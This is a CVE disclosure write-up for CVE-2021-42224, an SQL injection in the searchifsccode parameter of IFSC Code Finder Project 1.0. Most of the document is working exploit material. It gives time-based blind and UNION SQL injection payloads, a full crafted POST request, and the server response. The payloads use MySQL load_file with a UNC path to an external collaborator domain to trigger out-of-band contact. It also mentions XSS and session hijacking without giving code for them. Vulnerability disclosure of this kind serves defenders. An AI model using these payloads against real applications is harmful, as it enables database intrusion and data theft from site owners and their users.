 ## [CVE-2021-42224](https://phpgurukul.com/ifsc-code-finder-project-using-php/)
## [Vendor](https://phpgurukul.com/author/admin/)
![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-42224/docs/Screenshot%202021-10-14%20104403.png)

## Description:
- vulnerability: `all or nothing` 

SQL Injection vulnerability exists in IFSC Code Finder Project 1.0 via the searchifsccode POST parameter in /search.php.
The searchifsccode parameter appears to be vulnerable to SQL injection attacks. The test payload '+(select load_file('\\\\bp4frncin7wvtb1vnxr1n6ngh7n0bzzq2eu1kp9.nu11secur1tycollaborator.net\\ing'))+' was submitted in the searchifsccode parameter. This payload injects a SQL sub-query that calls MySQL's load_file function with a UNC file path that references a URL on an external domain. The application interacted with that domain, indicating that the injected SQL query was executed. Also the parameter "searchifsccode" from search.php is XSS-Dom vulnerable plus PHPSESSID hijacking.

## SQL injection Types

```mysql
---
Parameter: searchifsccode (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchifsccode=849487'+(select load_file('\\\\bp4frncin7wvtb1vnxr1n6ngh7n0bzzq2eu1kp9.nu11secur1tycollaborator.net\\ing'))+'') AND (SELECT 1445 FROM (SELECT(SLEEP(5)))EBDq) AND ('ubep'='ubep&search=%C2%9E%C3%A9e

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: searchifsccode=849487'+(select load_file('\\\\bp4frncin7wvtb1vnxr1n6ngh7n0bzzq2eu1kp9.nu11secur1tycollaborator.net\\ing'))+'') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176766b71,0x624a5562647364654b616a684c6d546a427263576377794168415561525872414e53664d6a6e6444,0x7171786271),NULL-- -&search=%C2%9E%C3%A9e
---
```
## Mysql Request:

```mysql
POST /IFSC%20Code%20Finder%20Project%20Using%20PHP/ifscfinder/search.php HTTP/1.1
Host: 192.168.1.180
Origin: http://192.168.1.180
Cookie: PHPSESSID=jmir9unlgf2inpr758uva4ruhb
Upgrade-Insecure-Requests: 1
Referer: http://192.168.1.180/IFSC%20Code%20Finder%20Project%20Using%20PHP/ifscfinder/
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 42

searchifsccode=849487'%2b(select%20load_file('%5c%5c%5c%5cbp4frncin7wvtb1vnxr1n6ngh7n0bzzq2eu1kp9.nu11secur1tycollaborator.net%5c%5cing'))%2b'&search=%C2%9E%C3%A9e
```

## MySQL Response:

```mysql
HTTP/1.1 200 OK
Date: Thu, 14 Oct 2021 07:02:37 GMT
Server: Apache/2.4.51 (Win64) OpenSSL/1.1.1l PHP/7.4.24
X-Powered-By: PHP/7.4.24
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 7797
Connection: close
Content-Type: text/html; charset=UTF-8

<!doctype html>
<html class="no-js" lang="en">

<head>

<!--====== Title ======-->
<title>IFSC Code Finder Portal | Home</title>

<!--====== Slick CSS ======-->
<link
...[SNIP]...
```
## Proof:
[href](https://streamable.com/kqadhc)

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/edit/main/CVE-2021-42224)

